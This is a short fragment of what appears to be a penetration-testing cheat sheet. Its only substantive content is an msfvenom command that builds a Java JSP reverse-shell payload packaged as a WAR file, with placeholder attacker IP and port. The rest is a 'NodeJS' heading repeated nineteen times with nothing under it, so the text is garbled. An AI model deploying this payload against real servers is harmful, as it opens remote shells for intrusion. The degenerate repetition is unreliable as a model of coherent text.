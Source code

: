 ### WAR

#### Reverse Shell

{% code overflow="wrap" %}
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```
{% code %}

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS
